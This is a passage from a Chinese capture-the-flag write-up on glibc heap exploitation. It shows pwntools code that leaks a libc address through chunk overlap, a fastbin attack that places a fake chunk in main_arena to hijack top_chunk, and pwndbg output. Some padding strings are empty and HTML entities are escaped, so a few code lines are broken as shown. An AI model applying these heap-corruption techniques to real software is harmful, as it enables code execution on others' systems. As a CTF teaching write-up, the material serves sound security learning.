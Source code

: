 
根据我上面说的原理，`0x55f4dccbe060`和`0x55f4dccbe1e0`在`malloc_consolidate`会合并成一个大chunk。



## chunk overlap 泄露地址

简单的地址泄露。

```
add(0x18, 0, 'n')
add(0x18, 1, 'n')
show(2)
sh.recvuntil('flowers : ')
result = sh.recvuntil('1.', drop=True)
main_arena_addr = u64(result.ljust(8, '')) - 88
log.success('main_arena_addr: ' + hex(main_arena_addr))

libc_addr = main_arena_addr - (libc.symbols['__malloc_hook'] + 0x10)
log.success('libc_addr: ' + hex(libc_addr))
```



## 劫持 top_chunk

还是因为`size &gt; 0 &amp;&amp; size &lt;= 0x58`的限制，我们没有办法使用正常的`0x7f`size来劫持`__malloc_hook`，这时就需要我们想出新的办法来劫持hook。

`由于fastbin和top_chunk邻近`，而且fastbin一般都是`0x56....`（开了PIE）之类的，那么`size &gt; 0 &amp;&amp; size &lt;= 0x58`的限制刚好可以申请到这种size，所以我们利用`fastbin`的地址充当size，然后`malloc`出 `main_arena`，再劫持 `top_chunk` 。

```
remove(3)
remove(4)

add(0x38, 3, 'n')
add(0x50, 4, '' * 0x10 + p64(0) + p64(0x51) + p64(main_arena_addr + 0xd))

add(0x48, 1, 'n')
```

代码的调试信息如下：

```
pwndbg&gt; bin
fastbins
0x20: 0x0
0x30: 0x55d97cd32240 ◂— 0x0
0x40: 0x0
0x50: 0x7f11bd065b2d (main_arena+13) ◂— 0x11bd065b2d000000
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x55d97cd32120 —▸ 0x7f11bd065b78 (main_arena+88) ◂— 0x55d97cd32120
smallbins
empty
largebins
empty
pwndbg&gt; x/4gx 0x7f11bd065b2d
0x7f11bd065b2d &lt;main_arena+13&gt;:    0xd97cd32240000000    0x0000000000000055
0x7f11bd065b3d &lt;main_arena+29&gt;:    0x11bd065b2d000000    0x000000000000007f
```

